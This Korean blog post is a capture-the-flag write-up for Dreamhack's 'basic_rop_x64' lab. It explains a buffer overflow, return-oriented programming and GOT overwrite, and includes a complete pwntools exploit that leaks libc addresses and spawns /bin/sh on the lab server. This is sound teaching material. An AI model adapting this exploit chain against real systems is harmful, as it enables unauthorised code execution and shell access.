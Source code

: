 ```yaml
---
layout: post
title: <System Hacking> 13. Return Oriented Programming (ROP), GOT overwrite
date: 2022-09-21 19:30:23 +0900
category: System_Hacking
comments: true
---
```


## ROP 실습문제

이번 포스팅은 Dreamhack의 basic_rop_x64문제를 직접 복습하면서 설명하도록 하겠다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}

```

이것이 해당 실습문제이다. 일단 취약점을 분석해보면, 

1. read()함수에서 buf 이상의 값을 받아들이려고 하고 있으므로, 이 곳에서 BOF 취약점이 발생함을 알수있다.
2. checksec 명령어로 주어진 바이너리 파일 (basic_rop_x64)을 분석해보면, NX enabled가 되어있는 대신에, 특이하게도 Stack canary가 Disabled 되어있다. 사실, 카나리 우회는 하도 많이 해서, 크게 어렵지는 않은 부분이라 있어도 없어도 그만이다.
3. write()함수에서 BOF 관련 취약점을 발견할 수 없기 때문에, 이 함수를 이용하기는 어려워보인다.

### 익스플로잇 플랜

일단 NX가 적용된 문제이기 때문에, buf에 shellcode를 주입하는 등의 기존의 공격방법은 통하지 않는다. NX가 적용된 경우, 실행 권한이 있는 메모리 영역은 코드 영역 부분이다. 특히, 라이브러리 관련 코드 영역을 적극적으로 이용하여 NX를 우회하여 해킹을 하는 방법을 자주 사용하게 된다. 이를 **Return to Library** 기법이라고 한다. 특히, **리눅스에서 C언어로 작성된 프로그램이 참조하는 libc**에는 다양한 함수들이 기본적으로 구현되어있는데, 이 곳을 적극적으로 공략할 것이다.

<br/>

하지만, 문제의 코드에서 알 수 있듯이, 당장 libc로 접근하는 방법은 가시적으로 보이지 않는다. 그래서, **Return gadget**이란 코드 조각을 이용해야 되는데, 가젯은 코드 영역에 위치하는, 컴파일 시에 결정되고 고정적인 어셈블리 코드조각을 이야기한다. 그 중에서, ret 어셈블리 명령어로 끝나는 가젯들을 특별히 return gadget이라 부른다.

```
pop rdi; ret
```

위의 일련의 어셈블리 명령어가 return gadget의 예이다. BOF를 발생시켜서 SFP 다음에 위치하는 return address에 스택 내의 악의적인 실행 코드를 대입해도, NX로 인해 실행 권한이 없기 때문에, 이 방법을 대신하여 return address에 return gadget을 대입시킨다. 그 후, 적절한 코드 영역의 함수 주소를 return gadget의 ret 부분에서 호출하는 우회 방식을 사용하게 된다.

<br/>

현재 분석하고 있는 바이너리에서는 read, write 함수가 사용되었기 때문에, 이 바이너리의 got table에는 두 함수가 등록되어있을 것이다. 이 **got table에 적힌 실제 함수의 주소는 곧 libc의 주소와 밀접하게 배치되어있다**는 특징을 이용하여, libc의 주소에 접근할 것이다. 그리고, 곧 **libc 내에 있는 쉘 획득 함수인 system 함수의 주소를 알아낼 수 있는데, 같은 libc 안에서 두 데이터 사이의 offset은 항상 같기 때문이다.** 즉, libc 내에서 system 함수와 read 함수 사이의 offset은 항상 동일하고, system 함수와 libc base 주소 사이의 offset도 항상 동일하다.

<br/>

이를 이용하여, return gadget을 chain처럼 연결하여, libc의 주소를 통해 system 함수를 연이어 호출하고, 이를 통해 쉘을 획득하는 과정을 거칠 것이다. 이 과정에서 system 함수의 주소를 구한 뒤에, 이 주소를 got table의 임의의 함수 주소에 overwrite하는 방법을 사용할 것인데, 이를 **GOT overwrite** 라고 한다. 이것이 가능한 이유는, Lazy binding의 특징을 보면 알 수 있는데,

1.호출할 라이브러리 함수의 주소를 프로세스에 매핑된 라이브러리에서 찾는다.
2.찾은 주소를 GOT에 적고, 이를 호출한다.
3.해당 함수를 다시 호출할 경우, GOT에 적힌 주소를 그대로 참조한다.

위 과정에서 GOT Overwrite에 이용되는 부분인 3번을 보면, GOT에 적힌 주소를 검증하지 않고 참조하므로 GOT에 적힌 주소를 변조할 수 있다면, 해당 함수가 재호출될 때 공격자가 원하는 코드가 실행되게 할 수 있기 때문이다.

### 익스플로잇 구현

내가 구현한 파이썬 익스플로잇 코드이다.

```py
from pwn import *

#p = process('./basic_rop_x64')
p = remote('host3.dreamhack.games',24572)
e = ELF('./basic_rop_x64')
libc = ELF('./libc.so.6')

payload = b'A'*0x40 + b'B'*0x8

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
write_got = e.got['write']

pop_rdi_gadget = 0x0000000000400883
pop_rsi_r15_gadget = 0x0000000000400881

# write(1, read_got)
payload += p64(pop_rdi_gadget) + p64(1)
payload += p64(pop_rsi_r15_gadget) + p64(read_got) + p64(0)
payload += p64(write_plt)

# read(0, read_got)
payload += p64(pop_rdi_gadget) + p64(0)
payload += p64(pop_rsi_r15_gadget) + p64(read_got) + p64(0)
payload += p64(read_plt)

# system('/bin/sh')
payload += p64(pop_rdi_gadget) + p64(read_got+0x8)
payload += p64(read_plt)

p.send(payload)
p.recvuntil(b'A'*0x40)
result = u64(p.recvn(6)+b'\x00'*2)
lb = result - libc.symbols['read']
system_addr = lb + libc.symbols['system']

print(hex(result))
print(hex(lb))
print(hex(system_addr))

p.send(p64(system_addr) + b'/bin/sh\x00')
p.interactive()
```

1. 카나리 우회가 필요없기 때문에, 카나리 관련 코드는 없다.
2. return address 부분에 pop rdi; pop rsi; pop r15; ret 가젯을 삽입하여, write 함수가 실행되도록 하였다. write 함수의 인자를 rdi, rsi 레지스터로 받기 때문이다. 참고로, write, read 함수의 인자는 3개가 필요하기 때문에 이를 조심하자. 아무튼, write 함수를 통해 read 함수의 got 주소를 leak 하게끔 하였다.
3. 구한 read_got 주소를 이용해서 pwntools의 symbols함수를 이용하여 offset을 빼주어서 libc의 주소를 알아낼 수 있고, 다시 libc의 기본 주소에 system 함수의 offset을 더해서 system 함수의 주소를 알아낼 수 있다. 
4. write 함수의 호출이 끝날때쯤, 함수의 에필로그에서 leave, ret 명령어가 존재하기 때문에, 연이어서 다음 가젯이 실행될 수 있다.
5. 연이어서 2번과 유사하게 이번에는 read (0, read_got, rdx사이즈) 를 실행시키는 가젯을 삽입했다. 이를 통해서, 표준 입력인 fd = 0 을 통해 입력받은 값을 read_got 주소에 overwrite하게 된다. 이 과정이 **GOT overwrite 기법** 이다. 여기서 입력은, 마지막 줄에서 보이는 send를 통해 system의 주소값으로 이루어진다.
6. system 함수의 주소로 read 함수의 got 테이블 주소가 바뀌었다. 이제 **다시 read함수를 재호출**하면, read함수의 got table을 시스템이 참조하게 되는데, 이미 system 함수의 주소로 변조되어있기 때문에, system('/bin/sh')가 실행되면서 쉘을 획득한다.

## 마치며

여기서 내가 어이없이 헤메었던 부분이 있는데, 다음과 같다.

1. write함수가 0x40만큼 딱 읽는걸 놓쳐서 고생했다. 코드를 잘 읽자.
2. 애초에 write 함수 0x40 만큼 출력한 후에, 내가 보낸 payload로 인해 leak된 값이 출력된다. 즉, p.send(payload)를 하면, 돌아오는 데이터는 A*0x40 + leak 주소. 내가 recvn으로 받으니까 AAAAAA값이 받아지는거였다.. 그리고, recv(1024)로 받아도, 첫 write 함수가 보낸 값만 받아진다. 따라서, recvuntil()로 먼저 A값을 다 받고, 그 뒤의 주소를 받아야한다. 나는 당연히 write보다 먼저 leak 작업을 했으니, leak주소가 먼저 나올줄알았다..

결론 : **recv 되는 출력값을 먼저 확인하는 습관을 가지자..**